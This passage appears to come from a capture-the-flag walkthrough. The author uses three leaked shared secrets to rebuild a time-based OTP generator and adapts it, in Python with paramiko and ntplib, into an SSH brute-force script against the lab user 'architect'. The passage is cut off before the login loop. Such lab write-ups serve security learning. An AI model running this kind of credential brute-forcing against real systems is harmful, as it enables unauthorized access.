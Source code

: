 Armed with above information, if we know the SST, we can SSH into user `architect`!

Luckly, the `testing.png` leaked 3 SSTs!

**Now, we can modify the `timeSimulatorClient.py` to brute force the SSH!**
```py
from datetime import datetime, timedelta
from hashlib import sha256
import random
from paramiko import SSHClient, AutoAddPolicy, AuthenticationException, ssh_exception
import os
import ntplib

class TimeSimulatorClient:
    def __init__(self, sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress):
        self.sharedSecret1 = sharedSecret1
        self.sharedSecret2 = sharedSecret2
        self.sharedSecret3 = sharedSecret3
        self.targetIPAdress = targetIPAdress
        self.listSecret = [sharedSecret1, sharedSecret2, sharedSecret3]

    def setTimeZone(self):
        try:
            print('[*] Setting timezone to UTC')
            print('[*] Before:')
            os.system('sudo timedatectl --value')
            os.system('sudo timedatectl set-timezone UTC')
            print('[+] Timezone has been changed to UTC')
        except:
            print('[-] Couldn\'t set the timezone to UTC')

    def syncTime(self):
        try: 
            client = ntplib.NTPClient()
            client.request(self.targetIPAdress) #IP of linux-bay server
            print('[+] Synced to the time server')
        except:
            print('[-] Could not sync with time server')

    def TimeSet(self, country, hours, mins, seconds):
        now = datetime.now() + timedelta(hours=hours, minutes=mins)
        #time units: day, hour, minutes
        CurrentTime = int(now.strftime("%d%H%M"))

        return CurrentTime
       
    def getOTP(self):
        CA = self.TimeSet('Ukraine', 4, 43, 0)
        CB = self.TimeSet('Germany', 13, 55, 0)
        CC = self.TimeSet('England', 9, 19, 0)
        CD = self.TimeSet('Nigeria', 1, 6, 0)
        CE = self.TimeSet('Denmark', -5, 18, 0)

        listTimeSet = [CA, CB, CC, CD, CE]
        randomTimeSet = random.sample(listTimeSet, 3)

        # CTT = CA * CB * CC
        CTT = randomTimeSet[0] * randomTimeSet[1] * randomTimeSet[2]

        # UC = CTT XOR SST
        UC = CTT ^ random.choice(self.listSecret)

        # hash OTP
        HC = (sha256(repr(UC).encode('utf-8')).hexdigest())

```